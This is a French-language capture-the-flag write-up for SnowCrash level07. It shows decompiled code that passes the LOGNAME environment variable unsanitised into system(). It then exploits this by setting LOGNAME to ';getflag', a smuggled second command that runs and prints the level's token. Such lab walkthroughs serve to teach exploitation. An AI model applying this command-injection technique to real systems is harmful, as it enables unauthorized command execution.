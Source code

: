 On commence par lister les fichiers

```bash
level07@SnowCrash:~$ ls
level07
```

En décompilant le binaire via le site https://dogbolt.org/
On observe que :
```c
    asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
    return system(var_1c);
```
Récupère la valeur de la variable d’environnement LOGNAME via getenv("LOGNAME").

Par défaut, le programme affiche simplement la valeur de LOGNAME
```c
level07@SnowCrash:~$ ./level07 
level07
```

On peut confirmer la valeur actuelle de LOGNAME
```bash
level07@SnowCrash:~$ env | grep LOGNAME
LOGNAME=level07
```

On modifie donc la variable d’environnement LOGNAME pour y injecter un appel à `getflag`

```bash
level07@SnowCrash:~$ export LOGNAME=";getflag"
level07@SnowCrash:~$ ./level07 

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```